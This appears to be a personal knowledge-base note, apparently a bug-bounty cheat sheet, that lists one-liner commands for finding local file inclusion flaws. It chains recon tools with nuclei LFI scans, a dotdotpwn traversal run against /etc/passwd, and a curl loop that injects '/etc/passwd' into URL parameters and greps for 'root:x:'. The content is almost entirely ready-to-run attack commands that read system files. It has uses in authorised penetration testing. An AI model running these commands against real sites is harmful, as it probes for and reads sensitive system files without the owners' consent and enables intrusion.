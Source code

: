 
[[Subfinder]] + [[Httpx]] + [[GAU (GetAllUrls)]] + [[Uro]] + [[GF]] + [[Tee]]

1. `subfinder -d example.com | httpx-toolkit | gau | uro | gf lfi | tee gf_lfi.out`

[[Nuclei]]

2. `nuclei -list subdomains.txt -tags lfi`

3. `nuclei -target 'https://example.com/index.php?page=about.php' -tags lfi`

[[Echo]] + [[GAU (GetAllUrls)]] + [[Uro]] + [[GF]]

4. `echo 'https://example.com/' | gau | uro | gf lfi`

[[DotDotPwn]]

5. `dotdotpwn -m http-url -d 10 -f /etc/passwd -u "https://example.com/index.php/ajax.php?page=TRAVERSAL" -b -k "root:"`

[[Subfinder]] + [[Httpx]] + [[GAU (GetAllUrls)]] + [[Uro]] + [[GF]] + [[Qsreplace]] + [[Curl]] + [[Grep]]

6. `subfinder -d example.com | httpx-toolkit | gau | uro | gf lfi | qsreplace "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is vulnerable"; done`

[[ParamSpider]]

7. `paramspider -d sub.domain.com --subs`
- `paramspider -l subdomains.txt --subs`

#### siehe auch:
- [[CORS Vulnerability like Lostsec]]
- [[Open Redirect like Lostsec]]
- [[Recon like Lostsec]]
- [[Microsoft IIS Server Vulnerability like Lostsec]]